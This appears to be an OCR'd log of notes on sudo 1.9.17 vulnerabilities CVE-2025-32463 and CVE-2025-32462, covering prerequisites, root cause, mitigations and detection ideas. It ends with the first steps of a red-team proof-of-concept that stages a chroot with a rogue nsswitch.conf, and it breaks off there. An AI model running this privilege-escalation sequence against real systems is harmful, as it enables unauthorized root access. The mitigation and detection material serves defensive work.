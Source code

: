
CVE-2025-32463_prerequisites
[23:52:31]
Local user able to run sudo 1.9.17; ability to create a writable chroot directory and populate etc/nsswitch.conf and libnss_*.so; either any sudo invocation (pre-auth) or one that triggers NSS lookups during policy resolution; no need for password/TTY as load occurs pre-auth.


CVE-2025-32462_root_cause
[23:52:33]
sudoers plugin allowed -h/--host to set runas.host for execution mode; authorization checks were applied as if for the specified remote host, enabling a user with sudoers entries restricted to another host to execute locally. Patch confines -h to list/check modes.


CVE-2025-32462_prerequisites
[23:52:35]
A sudoers configuration that grants privileges when run from a different host (Host_Alias or per-host entries); local user can run vulnerable sudo 1.9.17 with -h/--host; no special auth bypass otherwise (password prompts still apply if required).


CVE-2025-32463_mitigations_detections
[23:53:51]
Mitigate by upgrading to 1.9.17p1+; disable -R/CHROOT in policy/ops; consider AppArmor/SELinux or seccomp to restrict dlopen paths for sudoers plugin; minimize NSS modules. Detect via monitoring sudo -R usage, audit dlopen/openat of libnss_*.so from non-standard paths during sudo, and hunt chroot nsswitch.conf referencing unknown services.


CVE-2025-32462_mitigations_detections
[23:54:02]
Mitigate by upgrading to 1.9.17p1+; block -h in execution mode (wrapper/policy); review and tighten host-scoped sudoers rules; centralize logging. Detect via telemetry for sudo -h usage in execution mode, correlate requested host vs local host, and hunt for remote-only policy matches executed locally.


sudo_cve_2025_32463_poc_commands
[23:56:27]
Exact PoC command sequence used by Red Team Operator (sudo 1.9.17 CVE-2025-32463):

# 1) Verify version and attempt non-interactive run (expected to prompt/deny)
sudo -V | head -n1
sudo -n true || true

# 2) Prepare chroot directory
CH=/tmp/chrootpwn
mkdir -p "$CH"/etc "$CH"/tmp
mkdir -p "$CH"/lib "$CH"/lib64 "$CH"/usr/lib "$CH"/lib/x86_64-linux-gnu
printf "passwd: myhack files\nshadow: myhack files\ngroup: myhack files\nhosts: files myhack\n" > "$CH"/etc/nsswitch.conf
touch "$CH"/etc/passwd "$CH"/etc/group "$CH"/etc/shadow
